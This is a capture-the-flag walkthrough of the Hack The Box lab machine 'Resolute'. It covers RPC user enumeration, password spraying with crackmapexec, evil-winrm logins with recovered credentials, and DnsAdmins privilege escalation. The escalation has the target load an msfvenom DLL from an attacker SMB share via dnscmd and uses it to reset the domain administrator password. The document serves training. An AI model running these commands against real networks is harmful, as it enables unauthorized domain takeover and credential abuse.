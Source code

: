 ```yaml
---
title: "Resolute - HTB"
categories: [Medium,Windows]
tags: [Windows,Medium,RPC,PasswordSpray,DNSAdmin,AD]
mermaid: true
render_with_liquid: false
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Resolute.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

## Diagram

```mermaid
graph TD
    A[Enumeration] --> |rcpclient| AA(Users list and credential) -->
    B[Exploration] --> |Password Spray| BB[/Melanie/] -->
    C[Post-Exploration] --> |Enum Local| CC[/Ryan user/] --> |DnsAdmin| D
    D((Administrator))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled.png)

## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%201.png)
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%202.png)
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%203.png)
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%204.png)

We can login in SMB through credential:

> User :**melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%205.png)

**HABEMUS SHELL!!!**

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan
> 
> Pass: Serv3r4Admin4cc123!**
> 

```bash
ls -force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%206.png)

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%207.png)

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%208.png)

We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%209.png)

**HABEMUS ROOT!!!**
